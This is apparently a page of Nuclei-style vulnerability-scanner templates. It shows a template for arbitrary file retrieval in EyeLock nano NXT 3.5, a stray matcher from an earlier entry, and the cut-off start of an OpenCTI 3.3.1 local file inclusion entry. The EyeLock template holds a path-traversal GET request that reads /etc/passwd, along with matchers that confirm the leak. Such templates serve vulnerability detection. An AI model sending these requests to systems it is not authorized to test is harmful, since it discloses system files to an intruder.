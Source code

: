 **Type - regex**

- regex
  1. root:[x*]:0:0:

---

# EyeLock nano NXT 3.5 - Arbitrary File Retrieval

## Description

- EyeLock nano NXT suffers from a file retrieval vulnerability when input passed through the 'path' parameter to 'logdownload.php' script is not properly verified before being used to read files. This can be exploited to disclose contents of files from local resources.
- severity - high
- tags - iot,lfi,eyelock

## Requests

- Method - GET

### URL

- {{BaseURL}}/scripts/logdownload.php?dlfilename=juicyinfo.txt&path=../../../../../../../../etc/passwd

### Matchers

**Type - status**

- status
  1. 200

**Type - regex**

- regex
  1. root:[x*]:0:0:
- part - body

---

# OpenCTI 3.3.1 - Local File Inclusion

## Description

- OpenCTI 3.3.1 is vulnerable to local file inclusion.
- severity - high
- tags - opencti,lfi,oss

## Requests
